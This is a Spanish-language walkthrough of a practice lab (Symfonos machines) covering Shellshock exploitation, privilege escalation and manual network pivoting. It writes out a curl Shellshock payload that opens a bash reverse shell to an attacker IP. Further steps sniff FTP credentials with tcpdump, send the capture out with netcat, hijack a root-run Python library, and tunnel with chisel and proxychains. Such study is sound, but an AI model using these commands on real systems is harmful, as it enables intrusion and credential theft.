


- Tags: #pivoting #shellshock #pspy #pcapGroup #evil-winrm
_____
La siguiente red fue armada para practicar el pivoting manual, y esta organizada de la siguiente forma.
____

_____
se realizan los escaneo de nmap en donde buscamos vulnerabilidades por medio de saber que puertos están abiertos y que servicios se alojan y corren en dichos puerto, puesto que si sabemos la versión del servicio podemos buscar sus vulnerabilidades.

en este caso se exponen 3 puertos: **21 (FTP) - 22 (SSH) - 80 (HTTP)**. 

por lo que podemos ver todos los servicios que corren por los puertos tienen versiones anteriores las cuales presentan vulnerabilidades.
____

______
investigando la pagina web nos muestra solo una imagen, por lo que procederemos aplicar fuerza bruta con gobuster para descubrir nuevas rutas y directorios. 
___

____
nos reporta otros directorio pero nos enfocaremos en que hay mas allá del directorio **/cgi-bin/** puesto que nos muestra un código de estado forbiden (403) pero quizás tenga un recurso especifico al cual apuntar y descubrir algo.
___

____
por lo que vemos si, tenemos otro recurso al cual apuntar y veremos que hay dentro.
____

____
La imagen  muestra la salida de un comando típico en un sistema Unix/Linux que muestra información sobre el tiempo de actividad del sistema y la carga promedio. Específicamente, parece la salida del comando `uptime`.
### Desglose de la Salida:

```plaintext
09:41:39 up 5 min, 0 users, load average: 1.11, 0.85, 0.37
```

1. **09:41:39**:
   - La hora actual en formato HH:MM:SS.

2. **up 5 min**:
   - El sistema ha estado en funcionamiento durante 5 minutos.

3. **0 users**:
   - No hay usuarios actualmente conectados al sistema.

4. **load average: 1.11, 0.85, 0.37**:
   - Estos son los promedios de carga del sistema para los últimos 1, 5 y 15 minutos, respectivamente.
___
tenemos versiones muy viejas por lo que deberíamos investigar un shellshock y probar si el sistema es vulnerable al mismo.

Shellshock es una vulnerabilidad crítica que fue descubierta en el shell Bash (Bourne Again Shell) en septiembre de 2014. Esta vulnerabilidad, también conocida como Bashdoor, afecta muchas versiones de Bash y permite a los atacantes ejecutar comandos arbitrarios en sistemas que utilizan Bash como shell. A continuación, se detallan los aspectos más importantes de Shellshock:
### Descripción de la Vulnerabilidad

La vulnerabilidad de Shellshock se explota a través de la manipulación de variables de entorno. Cuando Bash procesa una variable de entorno que contiene un código malicioso, ejecuta inadvertidamente ese código. Esto se debe a cómo Bash evalúa las funciones exportadas a través de variables de entorno.

investigando por la web descubrimos que con el comando curl podemos enviar un peticion cargando código maliciosos en el User-Agent.

```shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.0.105/443 0>&1' http://192.168.0.103/cgi-bin/underworld/
```

como podemos ver estamos inyectado una reverse shell un tanto antigua.
### Desglose de Componentes

1. **curl**:
    
    - `curl` es una herramienta de línea de comandos utilizada para transferir datos desde o hacia un servidor utilizando diversos protocolos (HTTP, HTTPS, FTP, etc.).
2. **-H 'User-Agent: ...'**:
    
    - `-H` se utiliza para especificar un encabezado HTTP personalizado. En este caso, estamos enviando un encabezado `User-Agent`.
    - `'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.0.105/443 0>&1'` es el valor del encabezado `User-Agent` que intenta explotar la vulnerabilidad Shellshock.
3. **Exploit de Shellshock**:
    
    - `() { :; };` es la parte que explota Shellshock. Esta secuencia define una función vacía y luego termina, lo que permite inyectar código arbitrario a continuación.
    - `/bin/bash -i` abre una instancia interactiva de Bash.
    - `>& /dev/tcp/192.168.0.105/443` redirige tanto la salida estándar (`stdout`) como la salida de error estándar (`stderr`) a un socket TCP apuntando a la dirección IP `192.168.0.105` en el puerto `443`.
    - `0>&1` redirige la entrada estándar (`stdin`) a la salida estándar, completando el redireccionamiento necesario para una shell reversa.
4. **URL objetivo**:
    
    - `http://192.168.0.103/cgi-bin/underworld/` es la URL del servidor vulnerable que está ejecutando un script CGI. Este servidor está configurado de tal manera que las solicitudes HTTP con encabezados específicos serán procesadas por Bash.
_____
si unimos todas las piezas veremos que en la ruta especifica se esta ejecutando un comando el cual es **uptime**, es un comando típico en un sistema Unix/Linux que muestra información sobre el tiempo de actividad del sistema y la carga promedio. 

por lo que si la version de bash que corre dicho comando es un poco antigua podremos aprovechar la vulnerabilidad para así ejecutar comandos remotos.
____

____
ejecutando el comando anteriormente especificado pudimos enviarnos una reverse shell y poder así ganar acceso a la maquina victima.

por lo que ahora debemos o pivotar a otro usuario u obtener el root.

pero antes haremos un script en python que nos permita explotar la vulnerabilidad de forma automatizada.

el script en la siguiente sección [[Shellshock]]
______
lo que debemos hacer ahora es escalar privilegios, pero si aplicamos los comandos típicos para buscar binarios con permisos **setuid** no encontraremos nada relevante por lo que debemos buscar otras formas para la escalada de privilegios. 

tenemos un script llamado **pspy**.

`pspy` es un script o programa que se utiliza para espiar procesos en sistemas Unix/Linux sin necesidad de privilegios de superusuario (root). La herramienta es especialmente útil para auditar sistemas y detectar actividades sospechosas o inusuales.

### Características de `pspy`

1. **Monitorización de Procesos**: `pspy` puede observar y registrar los procesos que se están ejecutando en el sistema en tiempo real. Esto incluye la creación y terminación de procesos, así como la ejecución de nuevos comandos.
    
2. **Detección de Scripts y Cron Jobs**: Puede detectar scripts que se ejecutan periódicamente mediante cron jobs o at jobs, lo cual es útil para identificar tareas programadas que podrían ser maliciosas o no autorizadas.
    
3. **No Requiere Privilegios Elevados**: Una de las características más destacadas de `pspy` es que no necesita ejecutarse con privilegios de superusuario, lo que lo hace accesible y menos invasivo en términos de seguridad.

con pspy veremos que tareas esta ejecutando el usuario root.
____

____
si vemos el UID en 0 nos esta indicando que lo esta ejecutando el usuario root. 

vemos que se esta ejecutando un script llamado **ftpclient.py**, si se esta ejecutando dicho script podemos llegar a la conclusión de que algo se esta tramitando por medio de ftp lo cual ya de por si es malo puesto que ftp maneja credenciales en texto plano visible para todo aquel que logre capturar el trafico.

El servicio de FTP (File Transfer Protocol) es considerado inseguro por varias razones, principalmente relacionadas con la falta de cifrado y la vulnerabilidad a diversos tipos de ataques. Aquí se detallan las principales razones por las que FTP se considera inseguro:
### 1. **Transmisión en Texto Plano**

- **Credenciales en Texto Plano**: Tanto el nombre de usuario como la contraseña se transmiten sin cifrar, en texto plano. Esto significa que cualquier persona que intercepte los paquetes de red puede leer las credenciales sin ningún esfuerzo de descifrado.
- **Datos en Texto Plano**: No solo las credenciales, sino todos los datos transferidos a través de FTP, incluidos los archivos, se envían sin cifrar. Esto expone la información a cualquiera que pueda capturar el tráfico de red.
### 2. **Falta de Integridad de Datos**

- **Sin Garantía de Integridad**: FTP no tiene mecanismos integrados para verificar la integridad de los datos transferidos. Los datos pueden ser interceptados y modificados en tránsito sin que el receptor se dé cuenta.
### 3. **Susceptibilidad a Ataques**

- **Ataques Man-in-the-Middle (MitM)**: Dado que FTP no cifra las conexiones, es susceptible a ataques MitM donde un atacante intercepta y potencialmente modifica la comunicación entre el cliente y el servidor.
- **Ataques de Reproducción**: Debido a la falta de cifrado y mecanismos de seguridad adicionales, los atacantes pueden capturar y reproducir paquetes FTP para repetir transacciones.
### 4. **Puertos de Comunicación**

- **Puertos No Seguros**: FTP utiliza puertos bien conocidos (21 para el control y un rango de puertos para datos). Esto hace que sea más fácil para los atacantes identificar y orientar conexiones FTP.
- **Modo Activo vs. Modo Pasivo**: En el modo activo, el cliente abre un puerto y espera una conexión del servidor, lo que puede ser problemático en redes con firewalls estrictos. En el modo pasivo, el servidor abre un puerto para la transferencia de datos, lo que es más seguro en términos de firewall, pero sigue siendo inseguro debido a la falta de cifrado.

conociendo todo esto debemos intentar interceptar el trafico de red para ver que podemos ver.
____

___
Al aplicar el comando id vemos que estamos en el grupo de **pcap**.

El grupo `pcap` en Linux está relacionado con la captura de paquetes de red. Su principal propósito es permitir que los usuarios miembros de este grupo puedan capturar paquetes de red sin tener privilegios de superusuario (root). Esto se realiza a través de la biblioteca **libpcap** (Library for Packet Capture), que es una API ampliamente utilizada para la captura de tráfico de red.

de esta forma podemos verificar si tenemos tcpdump para escuchar e interceptar todos los paquetes tramitados.
_____

____
contamos con tcpdump, ahora debemos escoger por medio de cual interfaz de red nos pondremos a la escucha.

con `tpcdump -D` veremos las interfaces disponibles.

escogeremos la interfaz loopback, puesto que aveces podemos llegar a interceptar muchas mas cosas que en las otras interfaces.

con el comando `tcpdump -i lo -w Captura.cap -v` capturaremos los paquetes y depositaremos el output en el archivo Captura.cap con el parámetro -v de verbose para ver si se han capturado paquetes.

una vez capturado el paquete, usaremos netcat para enviar el archivo a nuestra maquina y asi poder examinarlo.

con el comando `nc <direccion_ip <puerto> < archivo.cap` desde la maquina victima.

y con el comando `nc -lvnp 443 > archivo.cap` desde nuestra maquina atacante, nos enviaremos el archivo.

*puesto que ftp carece de integridad de datos, podemos aplicar al archivo el comando `md5sum` para comprobar si el hash del archivo de destino es el mismo que el archivo de origen*

una vez tengamos el archivo, utilizaremos tshark con el siguiente comando `tshark -r archivo.cap -Y "ftp"` para que nos muestre los paquetes capturados.

utilizamos el parámetro **-Y** para filtrar por ftp.
______

____
vemos que tenemos un usuario y una contraseña, las cuales apuntaremos y probaremos para tratar de hacer pivoting entre usuarios.
____

_____
ahí podemos ver que ahora somos usuario hades, por lo que debemos explorar que vías potenciales tenemos para escalar privilegios.
___

____
si hacemos un id vemos que estamos en un grupo llamado gods, por lo que veremos que archivos hay asignados a ese grupo con el comando `find \-group gods 2>/dev/null`.

se nos despliegan archivos de python que parecen ser librerías del mismo, por lo que ahora filtraremos por archivos en los cuales tengamos capacidad de escritura con el comando `find \-group gods -writable 2>/dev/null`

y recordando lo anterior de que el usuario root esta ejecutando un script de python que se llama **ftpclient.py**, seguramente el mismo esta usando alguna librería de ftp para poder tramitar el comando.

por lo que ahora buscaremos con el comando anterior pero agregando grep para filtrar por ftp 
`find \-group gods -writable 2>/dev/null | grep ftp`.
_____

_____
vemos que tenemos esa librería en la cual podemos escribir, por lo que usando la librería **os** podremos ejecutar un comando.
____

_____
guardamos y ahora debemos monitorizar el bin/bash para ver si cambio en los permisos.

eso lo podemos hacer con el siguiente comando `watch -n 1 ls -l /bin/bash`
____

____
vemos que cambian los permisos ahora usando bash -p deberíamos poder convertirnos en root.
____

___
tenemos root, y es hora de pivotar a las siguientes maquinas.


## PIVOTING
_________
para pivotar a la maquina windows utilizamos chisel y proxychains para entablar el tunel por el cual acceder a la maquina, una vez realizado el paso anterior procedemos a escanear los puertos con nmap y proxychains, lagramos acceder a la maquina por medio de winrm el cual es un servicio que permite acceder a la maquina de forma remota y nos podemos conectar si tenemos las credenciales de usuario y contraseña, una vez tenemos la credenciales utilizamos la herramienta **evil-winrm** para realizar la conexión.


una vez dentro de la maquina podemos ver que segmentos de red se encuentran disponibles o si hay otras ip dentro de nuestro segmento, para eso utilizaremos el siguiente comando.

```shell
arp -a
```

con ese comando podemos verificar lo anteriormente explicado.
____

______
ahí podemos ver lo siguiente, en nuestro mismo segmento de red podemos apreciar varias direcciones ip, pero si recordamos la **IP - 192.168.20.8** ya es una ip conocida puesto que es la maquina que anteriormente comprometimos para poder llegar a las maquina del segmento de red en el cual nos encontramos ahora.

nos queda la siguiente opción: **IP - 192.168.20.9** esta ip la comprobaremos para ver que puertos tiene abiertos. pero antes una comprobación extra y que haremos un ping a esa dirección ip para ver si responde y nos muestra el **ttl** correspondiente.
_____

______
podemos ver que el ttl es de 64 lo que nos indica que es una maquina linux, esto no siempre es seguro pero ya tenemos nuestra primer comprobación.

nos descargamos una utilidad la cual nos permitirá escanear la red.

como estamos utilizando el evil-winrm no tendremos problemas al subir el archivo puesto que con el siguiente comando:

```shell
upload <Ruta_Completa_Del_Archivo>
```

subimos el archivo y lo ejecutamos.
______

_____
**La maquina windows solo nos servirá de puente para la otra maquina linux**.

por lo que ahora buscaremos el chisel pero para windows y lo subiremos a la maquina.

una vez lo tengamos cargado aplicaremos un **Dynamic Port Forwarding**, esto lo haremos de la siguiente forma.

desde la maquina windows utilizaremos el chisel en su modo cliente para conectarnos a la IP de la maquina symfonos 3 por el puerto que hayamos establecido **(en este caso el puerto 4455)**, posteriormente debemos configurar el puerto de nuestra segunda sesión de socks, recordemos que ya tenemos una sesión activa en el puerto 1080 por lo que si el socks se direcciona a ese puerto entrara en conflicto por lo que utilizaremos el puerto 8888.

utilizaremos socat para que todo el trafico que nos llegue desde la maquina windows sea redirigido a nuestra maquina atacante por el mismo puerto que se configuro el chisel server en nuestra maquina atacante (puerto 1234).

**en pocas palabras, estamos utilizando la maquina symfonos 3 como puente para que todo el trafico que genere la maquina windows nos llegue a nuestra maquina atacante.**

**para posteriormente utilizar la maquina windows como puente y poder llegar a la symfonos 5**
_____

________
una vez realizado esto nos debería de salir otra sesión activa en el primer servidor de chisel.
_____

___
lo hemos realizado bien, podemos continuar configurando el archivo de proxychains, activando el **dinamyc_chains** puesto que antes al tener solo un túnel utilizábamos el **strict_chain**
______

______
a su vez debemos configurar un nuevo socks5 con el puerto que definimos en el cliente,  ese puerto es el 8888. 

este socks debe de estar arriba del que ya se encuentra creado, el cual es el primer socks del primer servidor con chisel.
_____

_____

